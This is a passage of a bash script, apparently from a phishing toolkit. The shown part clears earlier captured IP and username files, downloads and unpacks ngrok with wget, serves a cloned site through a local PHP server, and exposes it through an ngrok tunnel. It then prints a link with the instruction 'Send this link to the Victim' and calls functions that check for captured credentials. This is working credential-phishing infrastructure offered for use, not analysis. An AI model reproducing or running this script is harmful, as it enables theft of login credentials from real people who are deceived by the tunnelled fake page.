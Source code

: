 getcredentials
}

start() {
if [[ -e sites/$server/ip.txt ]]; then
rm -rf sites/$server/ip.txt

fi
if [[ -e sites/$server/usernames.txt ]]; then
rm -rf sites/$server/usernames.txt

fi


if [[ -e ngrok ]]; then
echo ""
else

printf "\e[1;92m[\e[0m*\e[1;92m] Downloading Ngrok...\n"
arch=$(uname -a | grep -o 'arm' | head -n1)
arch2=$(uname -a | grep -o 'Android' | head -n1)
if [[ $arch == *'arm'* ]] || [[ $arch2 == *'Android'* ]] ; then
wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-arm.zip > /dev/null 2>&1

if [[ -e ngrok-stable-linux-arm.zip ]]; then
unzip ngrok-stable-linux-arm.zip > /dev/null 2>&1
chmod +x ngrok
rm -rf ngrok-stable-linux-arm.zip
else
printf "\e[1;93m[!] Download error... Termux, run:\e[0m\e[1;77m pkg install wget\e[0m\n"
exit 1
fi



else
wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-386.zip > /dev/null 2>&1 
if [[ -e ngrok-stable-linux-386.zip ]]; then
unzip ngrok-stable-linux-386.zip > /dev/null 2>&1
chmod +x ngrok
rm -rf ngrok-stable-linux-386.zip
else
printf "\e[1;93m[!] Download error... \e[0m\n"
exit 1
fi
fi
fi

printf "\e[1;92m[\e[0m*\e[1;92m] Starting php server...\n"
cd sites/$server && php -S 127.0.0.1:3333 > /dev/null 2>&1 & 
sleep 2
printf "\e[1;92m[\e[0m*\e[1;92m] Starting ngrok server...\n"
./ngrok http 3333 > /dev/null 2>&1 &
sleep 10

link=$(curl -s -N http://127.0.0.1:4040/status | grep -o "https://[0-9a-z]*\.ngrok.io")
printf "\e[1;92m[\e[0m*\e[1;92m] Send this link to the Victim:\e[0m\e[1;77m %s\e[0m\n" $link
checkfound
}
checkfound() {
